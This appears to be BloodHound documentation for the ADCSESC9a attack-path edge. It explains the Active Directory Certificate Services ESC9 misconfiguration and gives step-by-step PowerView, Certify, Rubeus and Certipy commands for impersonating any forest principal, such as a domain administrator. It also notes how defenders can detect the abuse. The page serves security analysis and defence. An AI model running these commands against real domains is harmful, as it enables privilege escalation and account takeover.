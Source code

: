 ---
title: ADCSESC9a
description: "The principal has control over a victim principal with permission to enroll on one or more certificate templates, configured to: 1) enable certificate authentication, 2) require the `userPrincipalName` (UPN) of the enrollee included in the Subject Alternative Name (SAN), and 3) do not have the security extension enabled."
---

<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>


The victim also has enrollment permission for an enterprise CA with the necessary templates published. This enterprise CA is trusted for NT authentication in the forest, and chains up to a root CA for the forest. There is an affected Domain Controller (DC) configured to allow weak certificate binding enforcement. This setup lets the principal impersonate any AD forest principal (user or computer) without their credentials. The attacker principal can abuse their control over the victim principal to modify the victim's UPN to match the `sAMAccountName` of a targeted principal. Example: If the targeted principal is Administrator@corp.local user, the victim's UPN will be populated with "Administrator" (without the @corp.local ending). The attacker principal will then abuse their control over the victim principal to obtain the credentials of the victim principal, or a session as the victim principal, and enroll a certificate as the victim in one of the affected certificate templates. The UPN of the victim ("Administrator") will be included in the issued certificate under the SAN. As the certificate template does not have the security extension, it will NOT include the SID of the victim user in the issued certificate. Next, the attacker principal will again set the UPN of the victim, this time to an arbitrary string (e.g. the original value). The issued certificate can now be used for authentication against an affected DC. The weak certificate binding configuration on the DC will make the DC accept that the SID of the victim user is not present in the issued certificate when performing Kerberos authentication, and it will use the SAN value to map the certificate to a principal. The DC will attempt to find a principal with a UPN matching the SAN value ("Administrator") but as the victim's UPN has been changed after the enrollment, there will be no principals with this UPN. The DC will then attempt to find a principal with a `sAMAccountName` matching the SAN value and find the targeted user. At last, the DC issues a Kerberos TGT as the targeted user to the attacker, which means the attacker now has a session as the targeted user. In case the target is a computer, the DC will find it as well as the DC will attempt `sAMAccountName` matching with a $ at the end of the SAN value as last resort.

## Abuse Info

### Windows

Step 1: Set UPN of victim to targeted principal's `sAMAccountName`. Set the UPN of the victim principal using PowerView:

```bash
Set-DomainObject -Identity VICTIM -Set @{'userprincipalname'='Target'}
```
Step 2: Check if the 'mail' attribute of victim must be set and set it if required.

If the certificate template is of schema version 2 or above, and its attribute 'msPKI-CertificateNameFlag' contains the flag SUBJECT\_REQUIRE\_EMAIL and/or SUBJECT\_ALT\_REQUIRE_EMAIL, then the victim principal must have their mail attribute set for the certificate enrollment. The CertTemplate BloodHound node will have "Subject Require Email" or "Subject Alternative Name Require Email" set to true if any of the flags are present.

If the certificate template is of schema version 1 or does not have any of the email flags, then
continue to Step 3.

If any of the two flags are present, you will need the victim's mail attribute to be set. The value of
the attribute will be included in the issues certificate but it is not used to identify the target
principal why it can be set to any arbitrary string.

Check if the victim has the mail attribute set using PowerView:

```bash
Get-DomainObject -Identity VICTIM -Properties mail
```
If the victim has the mail attribute set, continue to Step 3.

If the victim does not has the mail attribute set, set it to a dummy mail using PowerView:

```bash
Set-DomainObject -Identity VICTIM -Set @{'mail'='dummy@mail.com'}
```
Step 3: Obtain a session as victim. There are several options for this step.

If the victim is a computer, you can obtain the credentials of the computer account using the Shadow
Credentials attack (see [AddKeyCredentialLink edge](/resources/edges/add-key-credential-link) documentation).

Alternatively, you can obtain a session as SYSTEM on the host, which allows you to interact with AD as the computer account, by abusing control over the computer AD object (see [GenericAll edge](/resources/edges/generic-all) documentation).

If the victim is a user, you have the following options for obtaining the credentials:

* Shadow Credentials attack (see [AddKeyCredentialLink edge](/resources/edges/add-key-credential-link) documentation).
* Password reset (see [ForceChangePassword edge](/resources/edges/force-change-password) documentation).
* Targeted Kerberoasting (see [WriteSPN edge](/resources/edges/write-spn) documentation).

Step 4: Enroll certificate as victim.

Use Certify as the victim principal to request enrollment in the affected template, specifying the affected EnterpriseCA:

```bash
Certify.exe request /ca:SERVER\CA-NAME /template:TEMPLATE
```
Save the certificate as `cert.pem` and the private key as `cert.key`.

Step 5: Convert the emitted certificate to PFX format:

```bash
certutil.exe -MergePFX .\cert.pem .\cert.pfx
```
Step 6: Set UPN of victim to arbitrary value.

Set the UPN of the victim principal using PowerView:

```bash
Set-DomainObject -Identity VICTIM -Set @{'userprincipalname'='victim@corp.local'}
```

Step 7: Perform Kerberos authentication as targeted principal against affected DC using certificate.

Use Rubeus to request a ticket granting ticket (TGT) from the domain, specifying the
target identity to impersonate and the PFX-formatted certificate created in Step 5:

```bash
.\Rubeus.exe asktgt /certificate:cert.pfx /user:forestrootda /domain:forestroot.com /ptt
```

### Linux

Step 1: Set UPN of victim to targeted principal's `sAMAccountName`. Set the UPN of the victim principal using Certipy:

```bash
certipy account update -username ATTACKER@CORP.LOCAL -password PWD -user VICTIM -upn Target
```
Step 2: Check if the 'mail' attribute of victim must be set and set it if required.

If the certificate template is of schema version 2 or above, and its attribute 'msPKI-CertificateNameFlag' contains the flag SUBJECT\_REQUIRE\_EMAIL and/or SUBJECT\_ALT\_REQUIRE_EMAIL, then the victim principal must have their mail attribute set for the certificate enrollment. The CertTemplate BloodHound node will have "Subject Require Email" or "Subject Alternative Name Require Email" set to true if any of the flags are present.

If the certificate template is of schema version 1 or does not have any of the email flags, then
continue to Step 3.

If any of the two flags are present, you will need the victim's mail attribute to be set. The value of
the attribute will be included in the issues certificate but it is not used to identify the target
principal why it can be set to any arbitrary string.

Check if the victim has the mail attribute set using ldapsearch:

```bash
ldapsearch -x -D "ATTACKER-DN" -w 'PWD' -h DOMAIN-DNS-NAME -b "VICTIM-DN" mail
```

If the victim has the mail attribute set, continue to Step 3.

If the victim does not has the mail attribute set, set it to a dummy mail using ldapmodify:

```bash
echo -e "dn: VICTIM-DN\nchangetype: modify\nreplace: mail\nmail: test@mail.com" | ldapmodify -x -D "ATTACKER-DN" -w 'PWD' -h DOMAIN-DNS-NAME
```
Step 3: Obtain a session as victim. There are several options for this step.

If the victim is a computer, you can obtain the credentials of the computer account using the Shadow
Credentials attack (see [AddKeyCredentialLink edge](/resources/edges/add-key-credential-link) documentation).

Alternatively, you can obtain a session as SYSTEM on the host, which allows you to interact with AD as the computer account, by abusing control over the computer AD object (see [GenericAll edge](/resources/edges/generic-all) documentation).

If the victim is a user, you have the following options for obtaining the credentials:

* Shadow Credentials attack (see [AddKeyCredentialLink edge](/resources/edges/add-key-credential-link) documentation).
* Password reset (see [ForceChangePassword edge](/resources/edges/force-change-password) documentation).
* Targeted Kerberoasting (see [WriteSPN edge](/resources/edges/write-spn) documentation).

Step 4: Enroll certificate as victim.

Use Certipy as the victim principal to request enrollment in the affected template, specifying the affected EnterpriseCA:

```bash
certipy req -u VICTIM@CORP.LOCAL -p PWD -ca CA-NAME -target SERVER -template TEMPLATE
```

Step 5: Set UPN of victim to arbitrary value.

Set the UPN of the victim principal using Certipy:

```bash
certipy account update -username ATTACKER@CORP.LOCAL -password PWD -user VICTIM -upn victim@corp.local
```
Step 6: Perform Kerberos authentication as targeted principal against affected DC using certificate.

Request a ticket granting ticket (TGT) from the domain, specifying the certificate created in Step 4 and the IP of an affected DC:
```bash
 certipy auth -pfx TARGET.pfx -dc-ip IP
```

## Opsec Considerations

When the affected certificate authority issues the certificate to the attacker, it will retain a local copy of that certificate in its issued certificates store. Defenders may analyze those issued certificates to identify illegitimately issued certificates and identify the principal that requested the certificate, as well as the target identity the attacker is attempting to impersonate.

## References

This edge is related to the following MITRE ATT&CK tactic and techniques:

* https://attack.mitre.org/techniques/T1649/

### Abuse and Opsec references

* Certipy 4.0
* [Certipy](https://github.com/ly4k/Certipy)
* [GhostPack Certipy](https://github.com/GhostPack/Certify)
* [GhostPack Rubeus](https://github.com/GhostPack/Rubeus)
* [Set-DomainObject](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObject)
* [CertUtil.exe](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certutil)
* [LDAPSearch](https://linux.die.net/man/1/ldapsearch)
* [LDAPModify](https://linux.die.net/man/1/ldapmodify)
* [https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
